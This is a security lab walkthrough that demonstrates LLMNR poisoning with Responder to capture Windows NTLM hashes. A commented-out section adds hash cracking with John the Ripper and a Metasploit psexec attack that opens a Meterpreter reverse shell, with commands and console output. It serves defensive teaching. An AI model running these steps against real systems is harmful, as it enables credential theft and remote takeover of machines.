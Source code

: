 # Responder

In this lab we are going to walk through how quickly an attacker can take advantage of a common misconfiguration to gain access to a system via a **weak** password.

Specifically, we are looking to take advantage of **"LLMNR"**.  

We will need to load our terminal and start responder.

Let's get started by opening a **Kali** terminal.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let’s become root:

<pre>sudo su -</pre>

Before we start, we need to remove the existing **Responder** database. Do so by running the following:

<pre>rm /usr/share/responder/Responder.db</pre>

Now let’s start **Responder**:

<pre>responder -I eth0</pre>

You should see this:

![](attachments/responderrunning.png)

Let's open **Windows File Explorer** and put in the string **"\\Noooo"** into the address bar at the top.

![](attachments/OpeningFileExplorer.png)

![](attachments/noooaccessbar.png)

Switch back to your **Kali** terminal window.

After a few moments, you should see some captured data showing up.  

**Please note there may be an error.  That is OK.**

![](attachments/captureddata.png)



<!--

THIS SECTION IS BEING REMOVED FOR THE TIME BEING PER JOHN

Next we need to kill Responder with `Ctrl + c`.  This will return the command prompt. 

Now, we need to change to the logs directory.

</pre>cd /opt/Responder/logs</pre>

Once there, we will need to start John The Ripper"

</pre>/opt/JohnTheRipper/run/john --format=netntlmv2 ./HTTP-NTLMv2-172.26.16.1.txt</pre>
Remember!  Your IP will be different!!!!


If you captured a NTLMv1 hash you can crack it with the following command:

root@DESKTOP-I1T2G01:/opt/Responder/logs# `/opt/JohnTheRipper/run/john --format=netntlm ./HTTP-NTLMv1-172.26.16.1.txt`
Remember!  Your IP will be different!!!!

Notice the v2 is dropped from the --format.

![](attachments/Clipboard_2020-06-23-14-24-11.png)

You should see the Windows password be cracked very quickly.  

Now, let’s use that password!

First, we will need to run a script that configures your system as though it is on a domain with little to no security between workstations.
Basically, it allows logons over the network.

Use file explorer to navigate to C:\IntroLabs

Then, Right-click on the smb.bat file and run it as Administrator:

![](attachments/SMB_bat.png)

Next, let’s open a new Kali instance. The easiest way to do this is to click the Kali icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Now we are going to start up and launch Metasploit against the Windows system to get a Meterpreter session.

</pre>
adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ <b>sudo su -</b>
[sudo] password for adhd:
root@DESKTOP-I1T2G01:~#
root@DESKTOP-I1T2G01:~# <b>msfconsole -q</b>
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf5 ><b> use exploit/windows/smb/psexec</b>
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set PAYLOAD windows/meterpreter/reverse_tcp</b>
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) ><b> set RHOSTS 172.18.112.1 ###REMEMBER!!! YOUR WINDOWS IP WILL BE DIFFERENT</b>
RHOSTS => 172.18.112.1
msf5 exploit(windows/smb/psexec) ><b> set SMBUSER adhd</b>
SMBUSER => adhd
msf5 exploit(windows/smb/psexec) ><b> set SMBPASS adhd</b>
SMBPASS => adhd
msf5 exploit(windows/smb/psexec) ><b> exploit</b>

[*] Started reverse TCP handler on 172.18.121.248:4444
[*] 172.18.112.1:445 - Connecting to the server...
[*] 172.18.112.1:445 - Authenticating to 172.18.112.1:445 as user 'adhd'...
[*] 172.18.112.1:445 - Selecting PowerShell target
[*] 172.18.112.1:445 - Executing the payload...
[+] 172.18.112.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 172.18.112.1
[*] Meterpreter session 1 opened (172.18.121.248:4444 -> 172.18.112.1:52806) at 2022-10-18 12:39:56 -0600

meterpreter >
</pre>
Now, you can see just how bad LLMNR is!!!!
*/
-->

